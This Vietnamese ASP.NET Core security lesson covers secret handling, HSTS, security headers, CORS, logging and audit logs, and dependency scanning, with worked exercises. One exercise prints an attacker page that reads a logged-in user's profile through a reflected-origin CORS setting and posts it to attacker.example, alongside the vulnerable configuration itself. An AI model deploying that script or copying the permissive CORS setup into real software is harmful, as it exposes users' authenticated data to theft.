

# 10.10 - Security Best Practices

> **Tóm tắt:** Bài này gom những việc **luôn đúng** cho mọi API .NET, phần lớn tốn vài dòng cấu hình nhưng bịt được những lỗ hổng bị khai thác nhiều nhất. Ba thứ có tác động lớn nhất so với công sức bỏ ra: **`CORS` với `AllowAnyOrigin` cộng `AllowCredentials` không chạy được** — và cách người ta "sửa" nó (phản chiếu lại origin của request) chính là **tắt hoàn toàn** cơ chế bảo vệ same-origin; **secret trong Git không xoá được bằng commit mới**, phải coi như đã lộ và xoay khoá; và **log là nơi rò rỉ dữ liệu phổ biến nhất** vì nó được giữ lâu hơn và nhiều người đọc được hơn database.

## Mục tiêu bài học

Sau bài này bạn có thể:

- Xử lý đúng khi một secret lọt vào Git.
- Cấu hình HTTPS, HSTS và security header.
- Cấu hình CORS không mở toang.
- Thiết kế audit log dùng được khi điều tra sự cố.
- Rà một API trước khi đưa lên production.

**Cần biết trước:** cấu hình và user-secrets ([bài 8.6](../module-08-aspnet-core-fundamentals/8.6-configuration-system.md)), `ValidateOnStart` ([bài 7.7](../../stage-02-csharp-professional/module-07-dependency-injection/7.7-options-pattern.md)), logging ([bài 8.7](../module-08-aspnet-core-fundamentals/8.7-logging-with-serilog.md)), cookie refresh token ([bài 10.3](10.3-refresh-token.md)).

## Nội dung bài học

### 10.10.1 — Bí mật

```json
// SAI — appsettings.json nằm trong Git, trong image Docker, trong mọi bản sao repo
"Jwt": { "SecretKey": "super-secret-key-123456789012345678901234" }
```

`appsettings.json` **nằm trong Git**. Mọi thứ trong đó đều công khai với mọi người từng clone repo, và với mọi lớp trong image Docker.

**Khi một secret đã bị commit:**

1. **Xoay khoá ngay.** Đây là bước duy nhất thực sự có tác dụng.
2. Xoá khỏi lịch sử (`git filter-repo`) — chỉ để dọn dẹp, **không** để khắc phục.
3. Coi như nó **đã bị lộ**: repo có thể đã được fork, clone, hoặc có bản sao trong CI cache.

Một commit "xoá secret" không xoá gì cả — nó vẫn nằm trong lịch sử và trong mọi bản sao.

```bash
# Development
dotnet user-secrets set "Jwt:SecretKey" "$(openssl rand -base64 48)"
```

```yaml
# Production — lấy từ secret của orchestrator (ví dụ Kubernetes)
env:
  - name: Jwt__SecretKey
    valueFrom:
      secretKeyRef: { name: crm-secrets, key: jwt-key }
```

Thêm một tầng chặn trong CI để không tái diễn:

```yaml
- name: Scan for secrets
  uses: gitleaks/gitleaks-action@v2
```

Và **kiểm tra lúc khởi động** rằng secret hợp lệ:

```csharp
builder.Services.AddOptions<JwtOptions>()
    .Bind(builder.Configuration.GetSection("Jwt"))
    .Validate(o => Encoding.UTF8.GetByteCount(o.SecretKey) >= 32,
              "Jwt:SecretKey phải tối thiểu 32 byte")
    .Validate(o => !o.SecretKey.Contains("change-me"),
              "Jwt:SecretKey vẫn là giá trị mẫu")
    .ValidateOnStart();
```

`ValidateOnStart()` ([bài 7.7](../../stage-02-csharp-professional/module-07-dependency-injection/7.7-options-pattern.md)) khiến ứng dụng **không khởi động được** với cấu hình sai — tốt hơn nhiều so với chạy bình thường bằng khoá mẫu. Chạy thử khi quên đặt khoá:

```text
Microsoft.Extensions.Options.OptionsValidationException: Jwt:SecretKey phải tối thiểu 32 byte
```

### 10.10.2 — HTTPS và HSTS

```csharp
if (!app.Environment.IsDevelopment())
{
    app.UseHsts();
    app.UseHttpsRedirection();
}
```

```csharp
builder.Services.AddHsts(options =>
{
    options.MaxAge = TimeSpan.FromDays(365);
    options.IncludeSubDomains = true;
    options.Preload = true;
});
```

`UseHttpsRedirection` chỉ chuyển hướng **sau khi** request HTTP đầu tiên đã đi qua mạng — và request đó có thể đã mang theo cookie. HSTS bảo trình duyệt **không bao giờ** thử HTTP với tên miền này nữa, kể từ lần thứ hai.



Hai cảnh báo:

- **`Preload` là một chiều.** Đưa tên miền vào danh sách preload của trình duyệt thì gỡ ra mất **nhiều tháng**. Chỉ bật khi chắc chắn mọi subdomain đều có HTTPS.
- **`IncludeSubDomains` áp cho mọi subdomain**, kể cả những cái bạn quên. Một `legacy.company.com` chỉ có HTTP sẽ ngừng truy cập được.

Sau reverse proxy, phải bật `UseForwardedHeaders()` **trước** ([bài 8.1](../module-08-aspnet-core-fundamentals/8.1-aspnet-core-architecture.md)) — nếu không, ứng dụng thấy mọi request là HTTP và `UseHttpsRedirection` tạo **vòng lặp chuyển hướng vô tận**.

### 10.10.3 — Security header

```csharp
app.Use(async (context, next) =>
{
    var headers = context.Response.Headers;

    headers["X-Content-Type-Options"] = "nosniff";
    headers["X-Frame-Options"] = "DENY";
    headers["Referrer-Policy"] = "no-referrer";
    headers["Content-Security-Policy"] = "default-src 'none'; frame-ancestors 'none'";
    headers["Permissions-Policy"] = "geolocation=(), microphone=(), camera=()";

    await next(context);
});
```

| Header | Chống |
|---|---|
| `X-Content-Type-Options: nosniff` | Trình duyệt đoán kiểu nội dung và thực thi JSON như JavaScript |
| `X-Frame-Options: DENY` | Clickjacking |
| `Referrer-Policy: no-referrer` | Rò rỉ URL (có thể chứa id, token) sang site khác |
| `Content-Security-Policy` | XSS — với API JSON thì `default-src 'none'` là đúng |
| `Permissions-Policy` | Truy cập thiết bị ngoài ý muốn |

Với **API JSON thuần**, CSP `default-src 'none'` là chính xác: API không bao giờ nên tải tài nguyên nào. Nếu bạn phục vụ cả trang tài liệu API (Scalar, [bài 9.3](../module-09-web-api-professional/9.3-swagger-openapi.md)) thì cần CSP riêng cho đường dẫn đó.

Gỡ header `Server: Kestrel` giảm thông tin trinh sát. Nhiều bài viết thêm dòng `headers.Remove("Server")` vào middleware như trên, nhưng dòng đó **không có tác dụng**: Kestrel thêm `Server` khi bắt đầu gửi response, tức là sau middleware. Chạy thử trên .NET 10, response vẫn có `Server: Kestrel`. Cách đúng là tắt ở Kestrel:

```csharp
builder.WebHost.ConfigureKestrel(o => o.AddServerHeader = false);
```

Với dòng này, response không còn header `Server` (đã kiểm). Header `X-Powered-By` thì Kestrel vốn không gửi; nó đến từ IIS nếu bạn host trên IIS.

### 10.10.4 — CORS

```csharp
// SAI — không thể chạy, và cách "sửa" nó còn tệ hơn
policy.AllowAnyOrigin().AllowCredentials();   // ném exception lúc khởi động
```

CORS (Cross-Origin Resource Sharing) là cơ chế trình duyệt dùng để quyết định JavaScript của site này có được đọc response từ site khác hay không. Đặc tả **cấm** kết hợp `Access-Control-Allow-Origin: *` với `Access-Control-Allow-Credentials: true`, và ASP.NET Core ném exception khi dựng pipeline có `UseCors` với policy đó.

Cách "sửa" mà nhiều người tìm thấy trên mạng là **phản chiếu** origin của request:

```csharp
// RẤT NGUY HIỂM — chấp nhận MỌI origin
policy.SetIsOriginAllowed(_ => true).AllowCredentials();
```

Nó "hoạt động" — và nó **tắt hoàn toàn** cơ chế bảo vệ same-origin. Bất kỳ trang web nào cũng gọi được API của bạn **kèm cookie của người dùng**.

```csharp
// ĐÚNG — danh sách trắng, đọc từ cấu hình
builder.Services.AddCors(options =>
{
    options.AddPolicy("app", policy => policy
        .WithOrigins(builder.Configuration.GetSection("Cors:Origins").Get<string[]>()!)
        .WithMethods("GET", "POST", "PUT", "PATCH", "DELETE")
        .WithHeaders("Authorization", "Content-Type")
        .AllowCredentials()
        .SetPreflightMaxAge(TimeSpan.FromMinutes(10)));
});

app.UseCors("app");     // TRƯỚC UseAuthorization
```

Nhớ cái bẫy mảng cấu hình ở [bài 8.6](../module-08-aspnet-core-fundamentals/8.6-configuration-system.md): khai `Cors:Origins` ở cả `appsettings.json` lẫn file môi trường sẽ **hợp nhất theo chỉ số**, nên một origin lẽ ra đã bị xoá vẫn được chấp nhận trên production.

Nếu API chỉ được gọi từ server khác (không từ trình duyệt), **đừng bật CORS**. Nó không bảo vệ gì cả — nó chỉ nới lỏng một hạn chế của trình duyệt.

### 10.10.5 — Không bao giờ ghi hay trả về

```csharp
// SAI
logger.LogInformation("Dang nhap {Email} voi mat khau {Password}", email, password);
logger.LogDebug("Token: {Token}", accessToken);
return Problem(detail: exception.ToString());
```

| Không bao giờ vào log | Không bao giờ vào response |
|---|---|
| Mật khẩu, kể cả mật khẩu sai | Stack trace |
| Token, API key, connection string | Tên bảng, tên cột |
| Số thẻ đầy đủ, CVV | Phiên bản thư viện |
| Toàn bộ body của endpoint đăng nhập | Thông điệp exception của database |
| Số CMND/CCCD, hồ sơ y tế | Đường dẫn file trên server |

Log được giữ **hàng tháng**, gửi sang hệ thống bên thứ ba, và **nhiều người đọc được hơn** database. Rất nhiều sự cố rò rỉ dữ liệu bắt đầu từ log, không phải từ database.

Cẩn thận với destructuring: `logger.LogInformation("{@Request}", loginRequest)` ghi **toàn bộ** thuộc tính, gồm cả mật khẩu ([bài 8.7](../module-08-aspnet-core-fundamentals/8.7-logging-with-serilog.md)).

Và URL cũng vào log — đừng bao giờ đặt token trong query string.

### 10.10.6 — Audit log

Audit log khác log kỹ thuật: nó trả lời **"ai đã làm gì, lúc nào"** và phải dùng được khi điều tra.

```csharp
public sealed class AuditEntry
{
    public Guid Id { get; init; } = Guid.NewGuid();
    public DateTime OccurredAt { get; init; } = DateTime.UtcNow;
    public required string ActorId { get; init; }        // AI
    public required string Action { get; init; }         // LAM GI
    public string? TargetType { get; init; }             // TREN CAI GI
    public string? TargetId { get; init; }
    public string? IpAddress { get; init; }
    public string? UserAgent { get; init; }
    public string? Changes { get; init; }                // JSON trước/sau
    public required bool Succeeded { get; init; }
}
```

Những sự kiện **phải** có:

- Đăng nhập thành công và thất bại
- Đăng xuất, đăng xuất tất cả thiết bị
- Đổi mật khẩu, đặt lại mật khẩu
- **Gán và gỡ vai trò, cấp và gỡ quyền**
- Xoá hoặc sửa dữ liệu nhạy cảm
- Xuất dữ liệu hàng loạt
- Phát hiện tái sử dụng refresh token ([bài 10.3](10.3-refresh-token.md))

Bốn nguyên tắc:

1. **Chỉ ghi thêm.** Không `UPDATE`, không `DELETE`. Kẻ tấn công vào được hệ thống không được xoá dấu vết.
2. **Ghi cả thất bại.** Chuỗi 500 lần đăng nhập thất bại là thông tin quan trọng hơn một lần thành công.
3. **Tách khỏi log kỹ thuật.** Chúng có vòng đời, quyền truy cập và yêu cầu lưu trữ khác nhau.
4. **Không chứa dữ liệu nhạy cảm.** Ghi "đã đổi mật khẩu", không ghi mật khẩu.

Điểm 1 thường bị bỏ qua: nếu audit log nằm cùng database và cùng quyền với dữ liệu nghiệp vụ, nó không bảo vệ được gì trước người có quyền admin.

### 10.10.7 — Lỗi thường gặp: rà lại trước khi lên production

**Danh sách rà soát bảo mật**

- [ ] Không có secret nào trong Git; CI có bước quét secret.
- [ ] Secret bị lộ đã được xoay khoá, không chỉ xoá khỏi file.
- [ ] Cấu hình bảo mật được validate lúc khởi động với ValidateOnStart.
- [ ] HSTS bật ở production, hiểu rõ Preload là một chiều.
- [ ] UseForwardedHeaders đặt trước UseHttpsRedirection.
- [ ] Security header đầy đủ; header Server đã gỡ.
- [ ] CORS dùng danh sách trắng, không phản chiếu origin của request.
- [ ] Mảng origin trong cấu hình chỉ khai ở một nơi.
- [ ] Không có mật khẩu, token hay số thẻ nào trong log.
- [ ] Không trả stack trace hay thông điệp exception ra client ở production.
- [ ] Audit log chỉ ghi thêm, ghi cả thất bại, tách khỏi log kỹ thuật.
- [ ] Endpoint đăng nhập và quên mật khẩu có rate limit.
- [ ] FallbackPolicy yêu cầu đăng nhập được đặt.
- [ ] Mọi endpoint nhận id đều kiểm tra quyền trên bản ghi.
- [ ] Trang tài liệu API (OpenAPI, Scalar) không mở công khai ở production.
- [ ] Header Server được tắt bằng AddServerHeader = false.
- [ ] Phụ thuộc được quét lỗ hổng định kỳ (dotnet list package --vulnerable --include-transitive), không bỏ qua cảnh báo NU1902/NU1903 lúc restore.

## Bài tập áp dụng

#### Bài 1 — CORS phản chiếu origin cộng `AllowCredentials`

Cấu hình `SetIsOriginAllowed(_ => true)` với `AllowCredentials`, rồi từ một trang HTML ở origin khác gọi API kèm cookie. Xác nhận nó thành công — và hiểu vì sao đó là lỗ hổng.

**Tiêu chí hoàn thành:** bạn giải thích được vì sao đặc tả CORS **cấm** `*` cùng `credentials`, và vì sao phản chiếu origin lách được lệnh cấm đó nhưng nguy hiểm y hệt.

<details>
<summary><strong>Gợi ý và lời giải — Bài 1</strong></summary>

**Gợi ý.** Trình duyệt tự đính kèm cookie của `crm.company.com` vào mọi request tới `crm.company.com`, bất kể trang nào khởi tạo request đó. CORS quyết định ai được **đọc kết quả**.

**Lời giải — cấu hình nguy hiểm:**

```csharp
policy.SetIsOriginAllowed(_ => true)     // chấp nhận MỌI origin
      .AllowAnyHeader()
      .AllowAnyMethod()
      .AllowCredentials();
```

**Trang của kẻ tấn công:**

```html
<!-- https://attacker.example/index.html -->
<script>
  fetch('https://crm.company.com/api/v1/me/profile', { credentials: 'include' })
    .then(r => r.json())
    .then(d => fetch('https://attacker.example/steal', {
        method: 'POST', body: JSON.stringify(d) }));
</script>
```

**Phản hồi từ API** (chạy thật, request có header `Origin: https://attacker.example`):

```http
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://attacker.example
Access-Control-Allow-Credentials: true
```

**Script đọc được toàn bộ hồ sơ.** Người dùng chỉ cần đang đăng nhập CRM ở một tab khác và mở nhầm một link.

**Vì sao đặc tả cấm `*` cùng `credentials`.** Trình duyệt luôn gửi cookie tới đúng tên miền sở hữu chúng — đó là cách cookie hoạt động từ đầu. Thứ CORS kiểm soát là *ai được đọc phản hồi*. Nếu cho phép `Access-Control-Allow-Origin: *` cùng `Allow-Credentials: true`, thì **mọi trang trên Internet** đều đọc được dữ liệu đã xác thực của người dùng. Đặc tả chặn thẳng tổ hợp này, và ASP.NET Core ném exception lúc khởi động nếu bạn thử:

```text
InvalidOperationException: The CORS protocol does not allow specifying a wildcard (any) origin
and credentials at the same time. Configure the CORS policy by listing individual origins if
credentials needs to be supported.
```

**Vì sao phản chiếu origin nguy hiểm y hệt.** `SetIsOriginAllowed(_ => true)` không trả về `*` — nó đọc header `Origin` của request rồi **trả lại chính giá trị đó**. Về mặt cú pháp, đây là một origin cụ thể nên đặc tả cho qua. Về mặt hiệu quả, nó giống hệt `*`: mọi origin đều được chấp nhận. Lệnh cấm bị lách, còn rủi ro thì nguyên vẹn.

**Cấu hình đúng — danh sách trắng đọc từ cấu hình:**

```csharp
builder.Services.AddCors(o => o.AddPolicy("app", p => p
    .WithOrigins(builder.Configuration.GetSection("Cors:Origins").Get<string[]>()!)
    .AllowAnyHeader()
    .AllowAnyMethod()
    .AllowCredentials()
    .SetPreflightMaxAge(TimeSpan.FromHours(1))));
```

```json
{
  "Cors": {
    "Origins": [ "https://crm.company.com", "https://admin.company.com" ]
  }
}
```

**Ba chi tiết dễ sai:**

1. **`WithOrigins` khớp chính xác chuỗi**, kể cả scheme và cổng. `https://crm.company.com` **không** khớp `http://crm.company.com` hay `https://crm.company.com:8443`.
2. **Không để dấu `/` ở cuối.** `https://crm.company.com/` không bao giờ khớp — header `Origin` không có dấu gạch chéo cuối.
3. **`app.UseCors()` phải đứng sau `UseRouting` và trước `UseAuthorization`.** Sai thứ tự thì preflight `OPTIONS` không mang token sẽ bị `UseAuthorization` chặn trước khi CORS kịp trả lời — xem [bài 8.12](../module-08-aspnet-core-fundamentals/8.12-mini-case-study.md).

**Và một điều đáng nhớ:** CORS **không phải cơ chế bảo mật cho server**. Nó là quy tắc trình duyệt thực thi. `curl`, Postman hay một script server-side gọi API của bạn hoàn toàn không quan tâm tới CORS. Bảo vệ thật sự vẫn là xác thực và phân quyền.

</details>

---

#### Bài 2 — Quét lỗ hổng, kể cả phụ thuộc gián tiếp

Chạy `dotnet list package --vulnerable --include-transitive` trên một dự án thật. Ghi lại số gói có lỗ hổng đã biết, kể cả phụ thuộc gián tiếp.

**Tiêu chí hoàn thành:** bạn nêu được vì sao cờ `--include-transitive` thường làm con số tăng vọt, và cách xử lý một lỗ hổng nằm ở gói bạn **không** trực tiếp cài.

<details>
<summary><strong>Gợi ý và lời giải — Bài 2</strong></summary>

**Gợi ý.** Đếm số dòng trong `.csproj` rồi đếm số gói trong `obj/project.assets.json`. Hai con số cách nhau rất xa.

**Lời giải:**

```bash
dotnet restore
dotnet list package --vulnerable --include-transitive
```

Kết quả thật với một project `Crm.Api` (.NET 10) cố ý cài hai gói cũ, `System.Text.Json` 8.0.0 và `Microsoft.AspNetCore.Authentication.JwtBearer` 8.0.0:

```text
Project `Crm.Api` has the following vulnerable packages
   [net10.0]:
   Top-level Package       Requested   Resolved   Severity   Advisory URL
   > System.Text.Json      8.0.0       8.0.0      High       https://github.com/advisories/GHSA-hh2w-p6rv-4g7w
                                                  High       https://github.com/advisories/GHSA-8g4q-xg66-9fp4

   Transitive Package                           Resolved   Severity   Advisory URL
   > Microsoft.IdentityModel.JsonWebTokens      7.0.3      Moderate   https://github.com/advisories/GHSA-59j7-ghrg-fj52
   > System.IdentityModel.Tokens.Jwt            7.0.3      Moderate   https://github.com/advisories/GHSA-59j7-ghrg-fj52
```

**Một gói khai báo trực tiếp, hai gói gián tiếp.** Bạn không hề cài `Microsoft.IdentityModel.JsonWebTokens`, nhưng ứng dụng vẫn chạy code của nó.

Thật ra bạn đã được cảnh báo từ trước: SDK .NET 10 bật sẵn NuGetAudit, nên chính lệnh `dotnet restore` đã in các dòng này, kể cả cho gói gián tiếp:

```text
warning NU1903: Package 'System.Text.Json' 8.0.0 has a known high severity vulnerability, https://github.com/advisories/GHSA-hh2w-p6rv-4g7w
warning NU1902: Package 'Microsoft.IdentityModel.JsonWebTokens' 7.0.3 has a known moderate severity vulnerability, https://github.com/advisories/GHSA-59j7-ghrg-fj52
```

Cảnh báo dễ bị chìm giữa hàng chục dòng build khác, nên vẫn cần bước quét trong CI.

**Vì sao `--include-transitive` làm con số tăng.** File `.csproj` chỉ liệt kê gói bạn chọn, còn cây phụ thuộc đầy đủ nằm trong `obj/project.assets.json`. Đếm thử với project thử nghiệm của module này (4 dòng `PackageReference`: JwtBearer, OpenApi, Npgsql, EF Core SQL Server):

```bash
jq '.libraries | length' obj/project.assets.json
# 32
```

Bạn chịu trách nhiệm về bảo mật của cả 32 gói đó, dù chỉ chọn 4. Dự án thật có Serilog, Identity, thư viện test... thì con số còn lớn hơn nhiều. (Từ .NET 10, NuGet tự bỏ khỏi cây những gói mà framework đã có sẵn, nên con số nhỏ hơn so với các phiên bản .NET trước.)

**Xử lý lỗ hổng ở gói gián tiếp — ba cách, theo thứ tự nên thử:**

**1. Nâng gói cha.** Cách sạch nhất — tìm gói nào kéo nó vào:

```bash
dotnet nuget why Crm.Api Microsoft.IdentityModel.JsonWebTokens
```

```text
Project 'Crm.Api' has the following dependency graph(s) for 'Microsoft.IdentityModel.JsonWebTokens':

  [net10.0]
  └── Microsoft.AspNetCore.Authentication.JwtBearer (v8.0.0)
      └── Microsoft.IdentityModel.Protocols.OpenIdConnect (v7.0.3)
          └── System.IdentityModel.Tokens.Jwt (v7.0.3)
              └── Microsoft.IdentityModel.JsonWebTokens (v7.0.3)
```

Nâng `JwtBearer` lên bản cùng phiên bản .NET của project (10.x) là kéo theo phiên bản đã vá.

**2. Ghim phiên bản trực tiếp.** Khi gói cha chưa có bản mới:

```xml
<PackageReference Include="Microsoft.IdentityModel.JsonWebTokens" Version="8.0.1" />
```

Vì sao cách này có tác dụng: NuGet chọn phiên bản **thấp nhất** thoả mọi ràng buộc (gói cha chỉ ghi "tối thiểu 7.0.3"), nên tự nó sẽ không nâng lên bản vá. Nhưng có quy tắc **tham chiếu trực tiếp thắng** (direct dependency wins): phiên bản bạn ghi trong `.csproj` được dùng thay cho phiên bản gián tiếp. Quy tắc này cũng có chiều ngược lại: ghim trực tiếp một bản **thấp hơn** mức gói khác yêu cầu sẽ gây lỗi hạ cấp, ví dụ thật khi ghim `Microsoft.Extensions.Caching.Memory` 10.0.0 trong khi EF Core 10.0.7 cần bản 10.0.7 trở lên:

```text
error NU1605: Warning As Error: Detected package downgrade: Microsoft.Extensions.Caching.Memory from 10.0.7 to 10.0.0.
```

Cần kiểm thử kỹ vì bạn đang dùng tổ hợp mà gói cha chưa thử.

**3. Central Package Management** cho giải pháp nhiều project:

```xml
<!-- Directory.Packages.props -->
<Project>
  <ItemGroup>
    <PackageVersion Include="Microsoft.IdentityModel.JsonWebTokens" Version="8.0.1" />
  </ItemGroup>
</Project>
```

Một nơi quyết định phiên bản cho mọi project — tránh tình trạng mỗi project một bản khác nhau.

**Đưa vào CI để không phải nhớ chạy.** Một workflow GitHub Actions riêng, chạy cả khi có pull request lẫn theo lịch hằng tuần (`on` là khoá cấp workflow, không đặt được trong một step):

```yaml
# .github/workflows/dependency-audit.yml
name: Dependency audit

on:
  pull_request:
  schedule:
    - cron: "0 6 * * 1"          # 6 giờ sáng UTC mỗi thứ Hai

jobs:
  audit:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-dotnet@v4
        with:
          dotnet-version: "10.0.x"
      - name: Quét lỗ hổng phụ thuộc
        run: |
          dotnet restore
          dotnet list package --vulnerable --include-transitive 2>&1 | tee vuln.txt
          if grep -qE 'High|Critical' vuln.txt; then
            echo "::error::Có lỗ hổng mức High hoặc Critical"
            exit 1
          fi
```

**Lịch chạy hằng tuần quan trọng ngang bước quét trong pull request.** Lỗ hổng được công bố **sau khi** bạn merge. Một dự án không đổi dòng code nào trong ba tháng vẫn có thể tích luỹ lỗ hổng mới — chỉ lịch định kỳ mới phát hiện.

</details>

---

#### Bài 3 — Secret vẫn còn nguyên trong lịch sử Git

Commit một secret giả, rồi commit tiếp để "xoá" nó. Dùng `git log -p` tìm lại giá trị cũ và xác nhận nó vẫn còn nguyên.

**Tiêu chí hoàn thành:** bạn nêu được thứ tự **đúng** của các bước xử lý khi lỡ đẩy secret, và vì sao "dọn lịch sử" không phải bước đầu tiên.

<details>
<summary><strong>Gợi ý và lời giải — Bài 3</strong></summary>

**Gợi ý.** Hỏi: trong lúc bạn viết script dọn lịch sử, khoá kia có còn dùng được không?

**Lời giải — dựng lại:**

```bash
echo '{"ApiKey":"sk_live_51H8xKfLm2N3pQr4S"}' > appsettings.Local.json
git add appsettings.Local.json && git commit -q -m "chore: add local config"

git rm --cached appsettings.Local.json -q
echo "appsettings.Local.json" >> .gitignore
git add -A && git commit -q -m "chore: untrack local config"
```

Thư mục làm việc sạch. Nhưng:

```bash
git log -p --all -S 'sk_live_' | grep 'sk_live_'
```

```text
+{"ApiKey":"sk_live_51H8xKfLm2N3pQr4S"}
```

**Còn nguyên.** Và ai cũng lấy được bằng một lệnh:

```bash
git clone <repo> && cd repo && git log -p | grep -i 'api.key\|secret\|password'
```

**Thứ tự đúng khi lỡ đẩy secret — và bước đầu tiên không phải Git:**

```text
1. THU HỒI khoá ở nhà cung cấp          <- NGAY LẬP TỨC
2. Phát khoá mới, cập nhật nơi triển khai
3. Kiểm tra log xem khoá cũ đã bị dùng chưa
4. Bỏ theo dõi file, thêm .gitignore
5. Dọn lịch sử — nếu kho còn được chia sẻ
6. Kiểm tra các fork
```

**Vì sao bước 1 phải đầu tiên.** Đồng hồ bắt đầu chạy từ giây bạn `git push`, không phải từ giây bạn phát hiện. Các dịch vụ quét kho công khai phản ứng trong **vài giây**:

```text
14:33  Push commit chứa bí mật
14:33  GitHub ghi vào event log (công khai qua API)
14:33  Các dịch vụ quét bí mật tự động đọc thấy
14:34  Bot thử kết nối bằng thông tin vừa lấy được
14:35  Bạn nhận cảnh báo
14:40  Bạn xoá commit  <- MUỘN 7 phút
```

Viết script `git filter-repo` mất 20–30 phút. Trong toàn bộ thời gian đó, khoá **vẫn còn hiệu lực**. Thu hồi mất 2 phút và làm giá trị kia trở thành vô hại ngay — sau đó bạn dọn lịch sử thong thả.

**Bước 5, khi cần:**

```bash
pip install git-filter-repo
git filter-repo --path appsettings.Local.json --invert-paths
git push origin --force --all
```

Lưu ý nó **viết lại mọi mã băm**, nên cả đội phải clone lại. Với kho riêng tư, đội nhỏ, và khoá đã thu hồi, nhiều khi bỏ qua bước này là quyết định hợp lý.

**Bước 6 là lý do bước 1 quan trọng hơn tất cả.** Nếu kho đã bị fork, các fork **vẫn giữ** lịch sử cũ và bạn không xoá được chúng. Dù dọn sạch kho gốc, secret vẫn tồn tại ở nơi bạn không kiểm soát. Chỉ việc thu hồi mới thật sự kết thúc vấn đề.

**Phòng ngừa — ba lớp, nên có cả ba:**

```bash
# 1. Hook cục bộ — chặn trước khi commit
brew install gitleaks
gitleaks protect --staged

# 2. Trong CI — chặn trước khi merge
gitleaks detect --source . --redact
```

```bash
# 3. Đừng để secret ở dạng có thể commit được
dotnet user-secrets set "ConnectionStrings:Crm" "Host=...;Password=..."
```

User Secrets lưu ở thư mục người dùng, **ngoài** cây mã nguồn — không thể `git add` nhầm. Nó không mã hoá gì, nhưng nó giải quyết đúng vấn đề mà bài tập này minh hoạ.

</details>

## Tự kiểm tra

<details>
<summary>Khi một secret đã bị commit vào Git thì làm gì?</summary>

Xoay khoá ngay, đó là bước duy nhất thực sự có tác dụng. Xoá khỏi lịch sử chỉ để dọn dẹp chứ không khắc phục, vì repo có thể đã được fork, clone hoặc có bản sao trong CI cache. Một commit xoá secret không xoá gì cả, giá trị cũ vẫn nằm trong lịch sử.

</details>

<details>
<summary>HSTS giải quyết gì mà UseHttpsRedirection không giải quyết được?</summary>

UseHttpsRedirection chỉ chuyển hướng sau khi request HTTP đầu tiên đã đi qua mạng, và request đó có thể đã mang theo cookie. HSTS bảo trình duyệt không bao giờ thử HTTP với tên miền này nữa kể từ lần thứ hai. Nhưng Preload là một chiều và IncludeSubDomains áp cho cả subdomain bạn quên.

</details>

<details>
<summary>Vì sao AllowAnyOrigin không kết hợp được với AllowCredentials?</summary>

Vì trình duyệt cấm kết hợp Access-Control-Allow-Origin dấu sao với Allow-Credentials true, và ASP.NET Core ném exception ngay lúc khởi động. Cách sửa mà nhiều người tìm thấy là phản chiếu origin của request, nhưng nó tắt hoàn toàn cơ chế bảo vệ same-origin và cho bất kỳ trang web nào gọi API kèm cookie của người dùng.

</details>

<details>
<summary>API chỉ gọi từ server khác thì có cần CORS không?</summary>

Không. CORS là một hạn chế của trình duyệt, nên nó chỉ có ý nghĩa khi API được gọi từ JavaScript trong trình duyệt. Bật CORS cho API gọi từ server không bảo vệ gì cả, nó chỉ nới lỏng một hạn chế không liên quan.

</details>

<details>
<summary>Vì sao log là nơi rò rỉ dữ liệu phổ biến?</summary>

Vì log được giữ hàng tháng, gửi sang hệ thống bên thứ ba, và nhiều người đọc được hơn database. Rất nhiều sự cố rò rỉ bắt đầu từ log chứ không phải từ database. Cần cẩn thận cả với destructuring vì nó ghi toàn bộ thuộc tính của object, gồm cả mật khẩu.

</details>

<details>
<summary>Audit log cần những nguyên tắc nào?</summary>

Chỉ ghi thêm, không cập nhật và không xoá, để kẻ tấn công vào được hệ thống cũng không xoá được dấu vết. Ghi cả các lần thất bại, vì chuỗi 500 lần đăng nhập thất bại quan trọng hơn một lần thành công. Tách khỏi log kỹ thuật vì khác vòng đời và quyền truy cập. Và không chứa dữ liệu nhạy cảm.

</details>

## Kết luận

Ba điều đáng nhớ nhất:

1. **Secret đã commit là secret đã lộ.** Xoay khoá, đừng chỉ xoá file.
2. **Phản chiếu origin trong CORS là tắt bảo vệ same-origin**, không phải sửa lỗi.
3. **Audit log chỉ ghi thêm và ghi cả thất bại** — nếu không, nó vô dụng đúng lúc bạn cần nhất.

## Tham khảo

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Enforce HTTPS in ASP.NET Core](https://learn.microsoft.com/en-us/aspnet/core/security/enforcing-ssl)
- [Enable CORS in ASP.NET Core](https://learn.microsoft.com/en-us/aspnet/core/security/cors)
- [ASP.NET Core Data Protection](https://learn.microsoft.com/en-us/aspnet/core/security/data-protection/introduction)

## Điều hướng

- **Bài trước:** [10.9 — Đăng nhập bằng Google: OAuth 2.0 và OpenID Connect](10.9-overview.md)
- **Bài tiếp theo:** [10.11 — Bảo mật nâng cao: Data Protection, PKCE, passkey, mTLS](10.11-advanced-notes.md)
- **Về module:** [Trang mục lục](README.md)
